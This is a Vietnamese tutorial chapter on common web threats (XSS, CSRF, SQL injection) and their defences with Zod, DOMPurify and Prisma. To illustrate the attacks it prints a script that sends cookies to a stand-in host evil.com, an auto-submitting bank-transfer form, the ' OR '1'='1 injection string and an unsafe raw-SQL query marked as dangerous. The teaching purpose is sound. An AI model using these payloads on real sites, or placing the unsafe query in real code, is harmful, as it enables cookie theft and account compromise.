


# 6.4 Nhận biết những kẻ trộm mạng phổ biến——Mối đe dọa bảo mật Web thường gặp và cách phòng chống

## Xây dựng lại nhận thức

Mối đe dọa bảo mật Web không bí ẩn. Bản chất của chúng là **khai thác cơ chế tin tưởng của hệ thống**: trình duyệt tin tưởng nội dung mà trang web trả về, máy chủ tin tưởng các yêu cầu từ người dùng đã đăng nhập, cơ sở dữ liệu tin tưởng các truy vấn từ ứng dụng. Những gì kẻ tấn công làm là tìm kiếm những khe hở trong những "chuỗi tin tưởng" này để khai thác.



## Nội dung phần này

| Mục | Câu hỏi cốt lõi | Bạn sẽ học được |
|------|----------|----------|
| 6.4.1 Phòng chống XSS | Làm sao script độc hại bị tiêm vào? | Xác thực đầu vào và mã hóa đầu ra |
| 6.4.2 Phòng chống CSRF | Làm sao danh tính bị đánh cắp? | Xác thực Token và SameSite |
| 6.4.3 Cấu hình CORS | Làm sao kiểm soát yêu cầu cross-origin? | Chiến lược cross-origin an toàn |
| 6.4.4 Same-Origin Policy | Trình duyệt bảo vệ người dùng như thế nào? | Hiểu các cơ sở bảo mật trình duyệt |
| 6.4.5 Xác thực đầu vào | Làm sao phòng chống cuộc tấn công injection? | Truy vấn tham số hóa và xác thực |

## Tổng quan nguyên lý tấn công

### XSS: Làm cho trang web của bạn thực thi code của người khác

```html
<!-- Người dùng nhập vào hộp bình luận -->
<script>fetch('https://evil.com/steal?cookie=' + document.cookie)</script>

<!-- Nếu trang web render trực tiếp, kẻ tấn công có thể đánh cắp tất cả Cookie từ tất cả người truy cập -->
```

### CSRF: Sử dụng danh tính của bạn để làm điều xấu

```html
<!-- Form ẩn từ evil.com -->
<form action="https://bank.com/transfer" method="POST">
  <input name="to" value="attacker" />
  <input name="amount" value="10000" />
</form>
<script>document.forms[0].submit()</script>
<!-- Người dùng đã đăng nhập bank.com, trình duyệt tự động mang theo Cookie -->
```

### SQL Injection: Vượt qua logic xác thực của bạn

```sql
-- Người dùng nhập tên người dùng: admin' OR '1'='1
SELECT * FROM users WHERE username = 'admin' OR '1'='1' AND password = '...'
-- Câu SQL này luôn trả về kết quả, vượt qua xác thực mật khẩu
```

## Mô hình tư duy phòng chống

Nguyên tắc cốt lõi của phòng chống chỉ có một: **Không bao giờ tin tưởng đầu vào của người dùng**.



### Quy tắc thoát ký tự ở các bối cảnh khác nhau

| Bối cảnh | Ký tự nguy hiểm | Cách thoát |
|--------|----------|----------|
| Nội dung HTML | `< > & " '` | Mã hóa thực thể HTML |
| Thuộc tính HTML | `" '` | Mã hóa giá trị thuộc tính |
| JavaScript | `' " \` | Thoát JS |
| Tham số URL | `& = ? #` | Mã hóa URL |
| Truy vấn SQL | `' " ; --` | Truy vấn tham số hóa |

## Chuỗi công cụ bảo mật

### 1. Xác thực đầu vào: Zod

```typescript
import { z } from 'zod'

const UserInput = z.object({
  email: z.string().email(),
  name: z.string().min(1).max(100).regex(/^[a-zA-Z\s]+$/),
  age: z.number().int().min(0).max(150),
})
```

### 2. Làm sạch HTML: DOMPurify

```typescript
import DOMPurify from 'isomorphic-dompurify'

const clean = DOMPurify.sanitize(dirtyHtml, {
  ALLOWED_TAGS: ['b', 'i', 'em', 'strong'],
})
```

### 3. Truy vấn tham số hóa: Prisma

```typescript
// ✅ An toàn: Prisma tự động tham số hóa
const user = await prisma.user.findFirst({
  where: { email: userInput }
})

// ❌ Nguy hiểm: Ghép SQL thô
const user = await prisma.$queryRawUnsafe(
  `SELECT * FROM users WHERE email = '${userInput}'`
)
```

## Gợi ý hợp tác với AI

Khi yêu cầu AI tạo code liên quan đến đầu vào người dùng, hãy yêu cầu rõ ràng:

- "Sử dụng Zod để xác thực tất cả đầu vào của người dùng"
- "Sử dụng truy vấn tham số hóa, không ghép SQL"
- "Sử dụng DOMPurify để làm sạch HTML cần render"
- "Tất cả đầu ra được gửi đến trang đều phải thoát"

::: warning Danh sách kiểm tra xem xét bảo mật
1. [ ] Tất cả đầu vào của người dùng đều được xác thực
2. [ ] Không ghép trực tiếp câu lệnh SQL
3. [ ] Không sử dụng `dangerouslySetInnerHTML`
4. [ ] Đã cấu hình header phản hồi CSP
5. [ ] Cookie được đặt HttpOnly và Secure
:::
